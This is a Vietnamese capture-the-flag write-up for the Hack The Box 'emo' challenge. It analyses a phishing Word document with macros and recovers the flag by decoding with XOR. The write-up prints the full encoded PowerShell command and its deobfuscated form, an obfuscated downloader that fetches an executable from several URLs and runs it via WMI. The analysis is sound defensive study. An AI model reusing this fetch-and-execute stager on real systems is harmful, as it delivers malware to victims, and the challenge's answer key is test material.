

## Description 
> WearRansom ransomware just got loose in our company. The SOC has traced the initial access to a phishing attack, a Word document with macros. Take a look at the document and see if you can find anything else about the malware and perhaps a flag.
## Link chalenge 
> https://app.hackthebox.com/challenges/emo
## Solution 
- Trước tiên sau khi tải file em được 1 file doc chứa macro
```
┌──(kali㉿kali)-[~/Downloads]
└─$ file emo.doc 
emo.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1252, Subject: Handmade Argentina Handcrafted Frozen Towels yellow Frozen virtual Guatemala array Lesotho JBOD, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, Create Time/Date: Sat Oct 31 00:48:00 2020, Last Saved Time/Date: Tue Nov  3 02:14:00 2020, Number of Pages: 1, Number of Words: 9339, Number of Characters: 53237, Security: 8
```
- Em dùng olevba để xem macro nhưng có vẻ mã hơi khó đọc 
```
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Create              |May execute file or a system command through |
|          |                    |WMI                                          |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|ChrW                |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+
```
- Em sẽ thực thi nó trên 1 môi trường ảo, ở đây em sử dụng any.run.
- 
- Ta thấy rằng có 2 tiến triền đang chạy, theo dõi tiến trình powershell 
- Nó đang thực thi 1 lệnh ps. 
- 
```
 POwersheLL -windowstyle hidden -ENCOD IABTAFYAIAAgADAAegBYACAAKABbAFQAeQBQAGUAXQAoACIAewAyAH0AewAwAH0AewA0AH0AewAzAH0AewAxAH0AIgAtAGYAIAAnAGUAJwAsACcAcgBFAEMAdABvAHIAWQAnACwAJwBzAFkAcwB0ACcALAAnAC4ASQBPAC4AZABJACcALAAnAE0AJwApACAAIAApACAAOwAgACAAIABzAGUAdAAgACAAVAB4AHkAUwBlAG8AIAAgACgAIAAgAFsAVABZAHAAZQBdACgAIgB7ADAAfQB7ADcAfQB7ADUAfQB7ADYAfQB7ADQAfQB7ADIAfQB7ADEAfQB7ADgAfQB7ADMAfQAiAC0ARgAnAFMAWQBzAFQARQAnACwAJwBUAE0AJwAsACcASQBOACcALAAnAEUAUgAnACwAJwBwAE8AJwAsACcATgBlAFQALgBzAGUAJwAsACcAUgBWAEkAQwBFACcALAAnAE0ALgAnACwAJwBBAE4AYQBHACcAKQApACAAOwAgACAAJABOAGIAZgA1AHQAZwAzAD0AKAAnAEIAOQAnACsAJwB5AHAAJwArACgAJwA5ADAAJwArACcAcwAnACkAKQA7ACQAVgB4AG4AbAByAGUAMAA9ACQAQwBsAHUAZABrAGoAeAAgACsAIABbAGMAaABhAHIAXQAoADYANAApACAAKwAgACQAUgA2AHIAMQB0AHUAeQA7ACQASwB5ADMAcQAwAGUAOAA9ACgAKAAnAFIAcQAnACsAJwBkAHgAJwApACsAJwB3AG8AJwArACcANQAnACkAOwAgACAAKAAgACAARABpAHIAIAAgAHYAYQBSAGkAQQBiAGwAZQA6ADAAWgB4ACkALgB2AGEAbAB1AEUAOgA6ACIAQwByAGUAQQBUAGAARQBgAGQASQBSAEUAYwBgAFQAYABPAHIAWQAiACgAJABIAE8ATQBFACAAKwAgACgAKAAoACcAbgBEAHAAJwArACcASgByAGIAJwApACsAKAAnAGUAJwArACcAdgBrADQAbgAnACkAKwAnAEQAJwArACcAcAAnACsAKAAnAEMAJwArACcAYwB3AHIAXwAyAGgAJwApACsAJwBuAEQAJwArACcAcAAnACkAIAAtAFIAZQBQAGwAQQBjAEUAIAAoACcAbgAnACsAJwBEAHAAJwApACwAWwBjAEgAYQBSAF0AOQAyACkAKQA7ACQARgBOADUAZwBnAG0AcwBIACAAPQAgACgAMQA4ADIALAAxADgANwAsADIAMgA5ACwAMQA0ADYALAAyADMAMQAsADEANwA3ACwAMQA1ADEALAAxADQAOQAsADEANgA2ACkAOwAkAFAAeQBvAHoAZwBlAG8APQAoACgAJwBKADUAZgAnACsAJwB5ADEAJwApACsAJwBjACcAKwAnAGMAJwApADsAIAAoACAAIAB2AGEAUgBpAEEAQgBMAEUAIABUAHgAWQBTAEUAbwAgACAAKQAuAFYAYQBsAHUARQA6ADoAIgBTAGUAYwBVAHIASQBgAFQAWQBwAGAAUgBgAE8AdABPAGMAYABvAGwAIgAgAD0AIAAoACgAJwBUAGwAJwArACcAcwAxACcAKQArACcAMgAnACkAOwAkAEYATgA1AGcAZwBtAHMASAAgACsAPQAgACgAMQA4ADYALAAxADQAMQAsADIAMgA4ACwAMQA4ADIALAAxADcANwAsADEANwAxACwAMgAyADkALAAyADMANgAsADIAMwA5ACwAMgAzADkALAAyADMAOQAsADIAMgA4ACwAMQA4ADEALAAxADgAMgAsADEANwAxACwAMgAyADkALAAyADMANAAsADIAMwA5ACwAMgAzADkALAAyADIAOAApADsAJABIAHUAYQBqAGcAYgAwAD0AKAAoACcASgBuACcAKwAnAG8AJwApACsAJwA1AGcAJwArACcAYQAxACcAKQA7ACQAQgBiADIAOAB1AG0AbwAgAD0AIAAoACgAJwBBAGwAZQAnACsAJwA3AGcAJwApACsAJwBfADgAJwApADsAJABIAHMAYwBlAF8AagBzAD0AKAAnAEsAdgAnACsAKAAnAG4AYgAnACsAJwBvAHYAXwAnACkAKQA7ACQAUwBwAGsANQAxAHUAZQA9ACgAKAAnAEMAJwArACcANwB4AG8AJwApACsAJwA5AGcAJwArACcAbAAnACkAOwAkAFMAYwB1AHMAYgBrAGoAPQAkAEgATwBNAEUAKwAoACgAJwA1ACcAKwAnAHQAJwArACgAJwBmACcAKwAnAEoAcgBiAGUAdgAnACsAJwBrACcAKQArACgAJwA0ADUAdABmACcAKwAnAEMAYwAnACsAJwB3ACcAKQArACcAcgAnACsAKAAnAF8AMgBoACcAKwAnADUAdABmACcAKQApACAALQByAEUAcABsAEEAQwBFACAAIAAoAFsAQwBoAEEAUgBdADUAMwArAFsAQwBoAEEAUgBdADEAMQA2ACsAWwBDAGgAQQBSAF0AMQAwADIAKQAsAFsAQwBoAEEAUgBdADkAMgApACsAJABCAGIAMgA4AHUAbQBvACsAKAAoACcALgBlACcAKwAnAHgAJwApACsAJwBlACcAKQA7ACQARgBOADUAZwBnAG0AcwBIACAAKwA9ACAAKAAxADgANQAsADEANwA5ACwAMQA5ADAALAAxADgANAAsADIAMgA5ACwAMQA1ADEALAAxADMAOQAsADEANQA3ACwAMQA2ADQALAAyADMANQAsADEANwA3ACwAMgAzADkALAAxADcAMQAsADEAOAAzACwAMgAzADYALAAxADQAMQAsADEAMgA4ACwAMQA4ADcALAAyADMANQAsADEAMwA0ACwAMQAyADgALAAxADUAOAAsADEANwA3ACwAMQA3ADYALAAxADMAOQApADsAJABoAGIAbQBzAGsAVgAyAFQAPQAoACgAJwBDACcAKwAnADcAeABvACcAKQArACcAOQBnACcAKwAnAGwAJwApADsAJABoAGIAbQBzAGsAVgAyAFQAPQAkAEgATwBNAEUAKwAoACgAJwA1ACcAKwAnAHQAJwArACgAJwBmACcAKwAnAEoAcgBiAGUAdgAnACsAJwBrACcAKQArACgAJwA0ADUAdABmACcAKwAnAEMAYwAnACsAJwB3ACcAKQArACcAcgAnACsAKAAnAF8AMgBoACcAKwAnADUAdABmACcAKQApACAALQByAEUAcABsAEEAQwBFACAAIAAoAFsAQwBoAEEAUgBdADUAMwArAFsAQwBoAEEAUgBdADEAMQA2ACsAWwBDAGgAQQBSAF0AMQAwADIAKQAsAFsAQwBoAEEAUgBdADkAMgApACsAJABCAGIAMgA4AHUAbQBvACsAKAAoACcALgBjACcAKwAnAG8AJwApACsAJwBuAGYAJwApADsAJABRADEAXwB5ADAANQBfAD0AKAAnAFcAJwArACgAJwA0ACcAKwAnAHEAdgB5ACcAKQArACcAegA4ACcAKQA7ACQATwBkAGIAMwBoAGYAMwA9ACYAKAAnAG4AJwArACcAZQAnACsAJwB3AC0AbwBiAGoAZQBjAHQAJwApACAATgBlAHQALgBXAEUAQgBjAGwASQBFAE4AdAA7ACQARgBOADUAZwBnAG0AcwBIACAAKwA9ACAAKAAxADgAMwAsADEANQA0ACwAMQA3ADMALAAxADIAOAAsADEANwA1ACwAMQA1ADEALAAyADMAOAAsADEANAAwACwAMQA4ADMALAAxADYAMgAsADIAMgA4ACwAMQA3ADAALAAxADcAMwAsADEANwA5ACwAMgAyADkAKQA7ACQAQQBuAGIAeQB0ADEAeQA9ACgAJwBoACcAKwAoACcAdAB0AHAAOgAnACsAJwBdAFsAJwArACcAKABzACkAXQAnACkAKwAoACgAJwB3AF0AJwArACcAWwAoACcAKQApACsAKAAoACcAcwApACcAKwAnAF0AdwAnACkAKQArACgAJwBkAGEAJwArACcALQAnACkAKwAnAGkAJwArACcAbgAnACsAJwBkAHUAJwArACgAJwBzACcAKwAnAHQAcgBpAGEAbAAuACcAKwAnAGgAJwArACcAdAAnACkAKwAnAGIAXQAnACsAKAAnAFsAKABzACkAXQAnACsAJwB3ACcAKwAnAGoAcwAnACkAKwAoACgAJwBdACcAKwAnAFsAKAAnACkAKQArACgAKAAnAHMAJwArACcAKQBdAHcAOQBJAGQATAAnACsAJwBQAF0AWwAnACsAJwAoAHMAJwArACcAKQBdAHcAJwArACcAQABoACcAKQApACsAKAAnAHQAJwArACcAdABwADoAXQAnACkAKwAoACcAWwAoAHMAJwArACcAKQBdACcAKQArACcAdwAnACsAKAAnAF0AJwArACcAWwAoAHMAKQBdACcAKQArACgAJwB3AGQAYQBwACcAKwAnAHIAbwAnACsAJwBmAGUAcwBpAG8AbgBhACcAKwAnAGwALgBoACcAKQArACcAdABiACcAKwAoACcAXQBbACgAcwAnACsAJwApACcAKwAnAF0AJwApACsAJwB3ACcAKwAoACcAZAAnACsAJwBhAHQAYQAnACkAKwAoACcANABdAFsAKABzACcAKwAnACkAXQB3AGgAJwApACsAKAAnAFcAZwBXACcAKwAnAGoAVAAnACkAKwAoACcAVgBdACcAKwAnAFsAJwApACsAKAAnACgAcwApAF0AdwBAAGgAdAB0AHAAJwArACcAcwA6AF0AWwAoAHMAJwArACcAKQBdACcAKwAnAHcAJwArACcAXQAnACkAKwAnAFsAJwArACgAJwAoAHMAKQAnACsAJwBdAHcAZABhAGcAJwArACcAcgBhACcAKQArACcAbgBpACcAKwAnAHQAJwArACgAJwBlAGcAJwArACcAaQBhACcAKQArACgAJwByAGUALgBoACcAKwAnAHQAJwApACsAJwBiAF0AJwArACgAJwBbACcAKwAnACgAcwApACcAKQArACgAJwBdAHcAdwAnACsAJwBwAC0AYQAnACsAJwBkAG0AJwArACcAaQBuAF0AWwAoAHMAKQAnACsAJwBdAHcAdAAnACkAKwAoACcAVgBdAFsAJwArACcAKABzACcAKwAnACkAJwApACsAKAAnAF0AdwBAACcAKwAnAGgAJwApACsAJwB0AHQAJwArACcAcAAnACsAKAAnADoAJwArACcAXQBbACcAKQArACgAJwAoAHMAKQBdAHcAXQBbACcAKwAnACgAcwAnACsAJwApAF0AdwB3AHcAJwArACcAdwAnACsAJwAuAG8AdQB0ACcAKwAnAHMAJwArACcAcAAnACkAKwAoACcAbwBrACcAKwAnAGUAJwApACsAJwBuAHYAJwArACcAaQAnACsAKAAnAHMAJwArACcAaQBvAG4AcwAuACcAKQArACgAJwBoAHQAYgAnACsAJwBdACcAKQArACcAWwAnACsAKAAnACgAcwApAF0AdwAnACsAJwB3AHAAJwArACcALQBpAG4AJwApACsAKAAnAGMAbAB1ACcAKwAnAGQAJwApACsAKAAnAGUAcwBdAFsAKABzACkAJwArACcAXQB3AGEAVwAnACsAJwBvACcAKwAnAE0AJwApACsAKAAnAF0AJwArACcAWwAoACcAKwAnAHMAKQBdAHcAJwApACsAKAAnAEAAJwArACcAaAB0AHQAcAA6AF0AJwApACsAKAAnAFsAKABzACkAJwArACcAXQB3AF0AWwAoACcAKwAnAHMAKQAnACkAKwAoACcAXQB3AG0AbwAnACsAJwBiAHMAJwApACsAKAAnAG8AJwArACcAdQBrAC4AaAAnACkAKwAoACgAJwB0ACcAKwAnAGIAXQBbACgAJwApACkAKwAoACgAJwBzACkAJwArACcAXQB3AHcAcAAtACcAKQApACsAJwBpAG4AJwArACcAYwAnACsAJwBsACcAKwAoACcAdQBkAGUAJwArACcAcwBdACcAKwAnAFsAJwApACsAKAAnACgAcwApAF0AJwArACcAdwAnACkAKwAoACcAVQBZACcAKwAnADMAMABSAF0AJwApACsAKAAnAFsAKABzACcAKwAnACkAXQB3ACcAKwAnAEAAJwArACcAaAAnACsAJwB0AHQAcAA6AF0AWwAnACkAKwAoACcAKAAnACsAJwBzACkAXQB3ACcAKQArACgAJwBdAFsAJwArACcAKABzACkAJwApACsAKAAnAF0AJwArACcAdwBiACcAKQArACcAaQAnACsAKAAnAGcAJwArACcAbABhAHUAZwBoACcAKwAnAHMAJwApACsAKAAoACcALgBoACcAKwAnAHQAJwArACcAYgBdAFsAKABzACcAKQApACsAKAAoACcAKQBdACcAKQApACsAKAAnAHcAcwAnACsAJwBtAGEAbABsAHAAbwB0ACcAKwAnAGEAdABvACcAKQArACcAZQBzACcAKwAoACgAJwBdACcAKwAnAFsAKABzACcAKQApACsAKAAoACcAKQBdAHcAWQBdACcAKwAnAFsAKABzACcAKwAnACkAXQB3ACcAKwAnAEAAaAAnACsAJwB0AHQAcABzADoAXQBbACgAcwApACcAKQApACsAJwBdAHcAJwArACgAJwBdAFsAKAAnACsAJwBzACkAXQB3AG4AJwArACcAZwAnACkAKwAoACcAbABsACcAKwAnAG8AJwApACsAKAAnAGcAaQBzAHQAJwArACcAaQAnACkAKwAoACcAYwBzAC4AJwArACcAaAAnACkAKwAnAHQAJwArACgAJwBiAF0AJwArACcAWwAnACsAJwAoACcAKwAnAHMAKQBdAHcAJwApACsAJwBhAGQAJwArACgAJwBtAGkAJwArACcAbgAnACkAKwAnAGUAcgAnACsAJwBdACcAKwAoACcAWwAoAHMAJwArACcAKQBdAHcAJwArACcAVwAzAG0AJwApACsAJwBrACcAKwAoACgAJwBCACcAKwAnAF0AWwAoAHMAJwApACkAKwAoACgAJwApACcAKwAnAF0AdwAnACkAKQApAC4AIgByAGUAcABgAEwAQQBjAEUAIgAoACgAJwBdACcAKwAnAFsAJwArACgAJwAoAHMAKQBdACcAKwAnAHcAJwApACkALAAoAFsAYQByAHIAYQB5AF0AKAAnAC8AJwApACwAKAAnAHgAdwAnACsAJwBlACcAKQApAFsAMABdACkALgAiAHMAUABgAGwASQBUACIAKAAkAEkAdgBnADMAegBjAHUAIAArACAAJABWAHgAbgBsAHIAZQAwACAAKwAgACQASgB6AGEAZQB3AGQAeQApADsAJABHAGMAbwB5AHYAbAB2AD0AKAAoACcASwBmACcAKwAnAF8AJwApACsAKAAnADkAJwArACcAZQB0ADEAJwApACkAOwBmAG8AcgBlAGEAYwBoACAAKAAkAEEAOABpADMAawBlADEAIABpAG4AIAAkAEEAbgBiAHkAdAAxAHkAKQB7AHQAcgB5AHsAJABPAGQAYgAzAGgAZgAzAC4AIgBkAE8AYABXAG4ATABPAEEAYABkAGYASQBMAGUAIgAoACQAQQA4AGkAMwBrAGUAMQAsACAAJABTAGMAdQBzAGIAawBqACkAOwAkAFoAaABjAG4AYQB1AHgAPQAoACgAJwBFAGsAJwArACcAawAnACkAKwAoACcAagAnACsAJwA0ADcAdAAnACkAKQA7AEkAZgAgACgAKAAmACgAJwBHAGUAdAAtAEkAJwArACcAdABlACcAKwAnAG0AJwApACAAJABTAGMAdQBzAGIAawBqACkALgAiAEwARQBuAGAARwBUAGgAIgAgAC0AZwBlACAANAA1ADEAOQA5ACkAIAB7ACQAewBBADgAYABJAGAAMwBLAEUAMQB9AC4AKAAiAHsAMQB9AHsAMgB9AHsAMAB9ACIAIAAtAGYAJwBhAHkAJwAsACcAVABvAEMAaABhACcALAAnAHIAQQByAHIAJwApAC4ASQBuAHYAbwBrAGUAKAApACAAfAAgAC4AKAAiAHsAMgB9AHsAMQB9AHsAMAB9AHsAMwB9ACIAIAAtAGYAJwAtACcALAAnAGEAYwBoACcALAAnAEYAbwByAEUAJwAsACcATwBiAGoAZQBjAHQAJwApACAALQBwAHIAbwBjAGUAcwBzACAAewAgACQAewBGAE4ANQBgAEcARwBtAGAAUwBoAH0AIAArAD0AIAAoAFsAYgB5AHQAZQBdAFsAYwBoAGEAcgBdACQAewBfAH0AIAAtAGIAeABvAHIAIAAwAHgAZABmACAAKQAgAH0AOwAgACQARgBOADUAZwBnAG0AcwBIACAAKwA9ACAAKAAyADIAOAApADsAIAAkAGIAMABSAGoAZQAgAD0AIAAgAFsAdAB5AHAAZQBdACgAIgB7ADEAfQB7ADAAfQAiACAALQBGACcAVgBlAHIAVAAnACwAJwBDAG8AbgAnACkAOwAgACAAIAAkAEIAMABSAGoARQA6ADoAIgB0AE8AYABCAGEAUwBgAEUANgA0AFMAYABUAFIASQBgAE4AZwAiACgAJAB7AGYAbgA1AGAAZwBnAG0AYABzAGgAfQApACAAfAAgAC4AKAAiAHsAMgB9AHsAMQB9AHsAMAB9ACIAIAAtAGYAIAAnAGkAbABlACcALAAnAHUAdAAtAGYAJwAsACcAbwAnACkAIAAkAHsAaABCAGAAbQBTAEsAYABWADIAVAB9ADsAIAAoAFsAdwBtAGkAYwBsAGEAcwBzAF0AKAAoACcAdwBpACcAKwAnAG4AJwApACsAKAAnADMAMgBfACcAKwAnAFAAcgBvAGMAJwArACcAZQAnACkAKwAnAHMAJwArACcAcwAnACkAKQAuACIAYwBSAGAAZQBhAFQARQAiACgAJABTAGMAdQBzAGIAawBqACkAOwAkAEcAbAB3AGsAaQA2AGEAPQAoACcASQAnACsAJwBtACcAKwAoACcAdABkACcAKwAnAHgAdgA2ACcAKQApADsAYgByAGUAYQBrADsAJABQAGYAcABiAGwAaAAxAD0AKAAnAFYAcwAnACsAKAAnAGwAYQBsACcAKwAnAGMAJwApACsAJwB1ACcAKQB9AH0AYwBhAHQAYwBoAHsAfQB9ACQARgA0ADcAaQBlAGYAMgA9ACgAKAAnAEIAbgAnACsAJwB6AGkAZAAnACkAKwAnAHIAdAAnACkA 
```
- Em sử dụng cybercheff để decode ra, sau đó dùng 1 script nhỏ để tách từng lệnh ps 
```
SV  0zX ([TyPe]("{2}{0}{4}{3}{1}"-f 'e','rECtorY','sYst','.IO.dI','M')  ) 
   set  TxySeo  (  [TYpe]("{0}{7}{5}{6}{4}{2}{1}{8}{3}"-F'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG')) 
  $Nbf5tg3=('B9'+'yp'+('90'+'s'))
$Vxnlre0=$Cludkjx + [char](64) + $R6r1tuy
$Ky3q0e8=(('Rq'+'dx')+'wo'+'5')
  (  Dir  vaRiAble:0Zx).valuE::"CreAT`E`dIREc`T`OrY"($HOME + ((('nDp'+'Jrb')+('e'+'vk4n')+'D'+'p'+('C'+'cwr_2h')+'nD'+'p') -RePlAcE ('n'+'Dp'),[cHaR]92))
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$Pyozgeo=(('J5f'+'y1')+'c'+'c')
 (  vaRiABLE TxYSEo  ).ValuE::"SecUrI`TYp`R`OtOc`ol" = (('Tl'+'s1')+'2')
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$Huajgb0=(('Jn'+'o')+'5g'+'a1')
$Bb28umo = (('Ale'+'7g')+'_8')
$Hsce_js=('Kv'+('nb'+'ov_'))
$Spk51ue=(('C'+'7xo')+'9g'+'l')
$Scusbkj=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.e'+'x')+'e')
$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$hbmskV2T=(('C'+'7xo')+'9g'+'l')
$hbmskV2T=$HOME+(('5'+'t'+('f'+'Jrbev'+'k')+('45tf'+'Cc'+'w')+'r'+('_2h'+'5tf')) -rEplACE  ([ChAR]53+[ChAR]116+[ChAR]102),[ChAR]92)+$Bb28umo+(('.c'+'o')+'nf')
$Q1_y05_=('W'+('4'+'qvy')+'z8')
$Odb3hf3=&('n'+'e'+'w-object') Net.WEBclIENt
$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)
$Anbyt1y=('h'+('ttp:'+']['+'(s)]')+(('w]'+'[('))+(('s)'+']w'))+('da'+'-')+'i'+'n'+'du'+('s'+'trial.'+'h'+'t')+'b]'+('[(s)]'+'w'+'js')+((']'+'[('))+(('s'+')]w9IdL'+'P]['+'(s'+')]w'+'@h'))+('t'+'tp:]')+('[(s'+')]')+'w'+(']'+'[(s)]')+('wdap'+'ro'+'fesiona'+'l.h')+'tb'+('][(s'+')'+']')+'w'+('d'+'ata')+('4][(s'+')]wh')+('WgW'+'jT')+('V]'+'[')+('(s)]w@http'+'s:][(s'+')]'+'w'+']')+'['+('(s)'+']wdag'+'ra')+'ni'+'t'+('eg'+'ia')+('re.h'+'t')+'b]'+('['+'(s)')+(']ww'+'p-a'+'dm'+'in][(s)'+']wt')+('V]['+'(s'+')')+(']w@'+'h')+'tt'+'p'+(':'+'][')+('(s)]w]['+'(s'+')]www'+'w'+'.out'+'s'+'p')+('ok'+'e')+'nv'+'i'+('s'+'ions.')+('htb'+']')+'['+('(s)]w'+'wp'+'-in')+('clu'+'d')+('es][(s)'+']waW'+'o'+'M')+(']'+'[('+'s)]w')+('@'+'http:]')+('[(s)'+']w][('+'s)')+(']wmo'+'bs')+('o'+'uk.h')+(('t'+'b][('))+(('s)'+']wwp-'))+'in'+'c'+'l'+('ude'+'s]'+'[')+('(s)]'+'w')+('UY'+'30R]')+('[(s'+')]w'+'@'+'h'+'ttp:][')+('('+'s)]w')+(']['+'(s)')+(']'+'wb')+'i'+('g'+'laugh'+'s')+(('.h'+'t'+'b][(s'))+((')]'))+('ws'+'mallpot'+'ato')+'es'+((']'+'[(s'))+((')]wY]'+'[(s'+')]w'+'@h'+'ttps:][(s)'))+']w'+('][('+'s)]wn'+'g')+('ll'+'o')+('gist'+'i')+('cs.'+'h')+'t'+('b]'+'['+'('+'s)]w')+'ad'+('mi'+'n')+'er'+']'+('[(s'+')]w'+'W3m')+'k'+(('B'+'][(s'))+((')'+']w')))."rep`LAcE"((']'+'['+('(s)]'+'w')),([array]('/'),('xw'+'e'))[0])."sP`lIT"($Ivg3zcu + $Vxnlre0 + $Jzaewdy)
$Gcoyvlv=(('Kf'+'_')+('9'+'et1'))
foreach ($A8i3ke1 in $Anbyt1y){try{$Odb3hf3."dO`WnLOA`dfILe"($A8i3ke1, $Scusbkj)
$Zhcnaux=(('Ek'+'k')+('j'+'47t'))
If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -ge 45199) {${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() | .("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process { ${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf ) }
 $FN5ggmsH += (228)
 $b0Rje =  [type]("{1}{0}" -F'VerT','Con')
   $B0RjE::"tO`BaS`E64S`TRI`Ng"(${fn5`ggm`sh}) | .("{2}{1}{0}" -f 'ile','ut-f','o') ${hB`mSK`V2T}
 ([wmiclass](('wi'+'n')+('32_'+'Proc'+'e')+'s'+'s'))."cR`eaTE"($Scusbkj)
$Glwki6a=('I'+'m'+('td'+'xv6'))
break
$Pfpblh1=('Vs'+('lal'+'c')+'u')}}catch{}}$F47ief2=(('Bn'+'zid')+'rt')

```
- Ta thấy tại dòng `$Zhcnaux=(('Ek'+'k')+('j'+'47t'))
If ((&('Get-I'+'te'+'m') $Scusbkj)."LEn`GTh" -ge 45199) {${A8`I`3KE1}.("{1}{2}{0}" -f'ay','ToCha','rArr').Invoke() | .("{2}{1}{0}{3}" -f'-','ach','ForE','Object') -process { ${FN5`GGm`Sh} += ([byte][char]${_} -bxor 0xdf ) }` có 1 lệnh đang cố gắng xor biến $FN5ggmsH và hex 0xdf.
- Viết script xor chúng nó với nhau (lưu ý biến $FN5ggmsH có nhiều phần)
```
list = [182,187,229,146,231,177,151,149,166,186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228,185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139,183,154,173,128,175,151,238,140,183,162,228,170,173,179,229]
xor_byte = 0xdf
for i in list:
	print(chr(xor_byte^i), end = "")
```
- Ta thu được flag nằm trong 
```
┌──(kali㉿kali)-[~/Downloads]
└─$ python xor.py
id:M8nHJyeR;int:3000;jit:500;flag:HTB{4n0th3R_d4Y_AnoThEr_pH1Sh};url:
```
> HTB{4n0th3R_d4Y_AnoThEr_pH1Sh}